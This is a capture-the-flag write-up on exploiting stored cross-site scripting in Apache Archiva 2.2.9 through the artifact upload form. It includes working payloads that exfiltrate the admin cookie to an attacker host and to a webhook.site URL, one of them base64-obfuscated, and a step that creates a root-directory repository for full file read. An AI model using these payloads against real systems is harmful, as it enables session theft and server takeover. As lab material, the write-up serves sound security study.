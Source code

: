 
Apache Archiva is a repository management software that helps us to take care of our personal as well as enterprise build repository.
Here we are using the version 2.2.9
We can login as a normal user using the credentials:
user: ctf
pass: H4v3Fun

As there is a server and an admin bot, this challenge can probably be an xss challenge
Looking at the source code, we can see that the admin visits, /repository/internal. So, we should try to make an entry to this page, but a normal user has very less privileges.
So, there is an upload functionality here, (in upload artifact). So, this page allows to upload a file to already existing repository.

Lets try giving a simple alert(1) payload to see if we have xss:
repo id: internal
group id : `<img src=a onerror=alert(1)>`
artifact: 1
version: 1
packaging : 1
upload a random file: then save.
Go to http://localhost:8055/repository/internal/ we can see we have xss

Now our goal is to steal the admin cookie and get the admin privileges which has lot more functionalitites like creating a repository.
To steal admin cookie:
`<img src=a onerror="fetch(String.fromCharCode(47)+String.fromCharCode(47)+'{my_host}:{my_port}'+String.fromCharCode(47)+btoa(document.cookie))">`

After getting the admin priveleges: create a new repo
id=root
name=root
directory=/
Accessed via http://localhost:8055/repository/root/ giving us complete read access to the entire system.


<br>
<br>
```
<script>document.write('<img src="https://webhook.site/5f41dc6d-6532-41ec-90c5-a597ad8975b5?c='+document.cookie+'" />');</script>
```
```
x"><img%20src="x"%20onerror="javascript:eval(atob('PHNjcmlwdD4KZG9jdW1lbnQud3JpdGUoJzxpbWcgc3JjPSJodHRwczovL3dlYmhvb2suc2l0ZS81ZjQxZGM2ZC02NTMyLTQxZWMtOTBjNS1hNTk3YWQ4OTc1YjU%2FYz0nK2RvY3VtZW50LmNvb2tpZSsnIiAvPicpOwo8L3NjcmlwdD4='))">
```
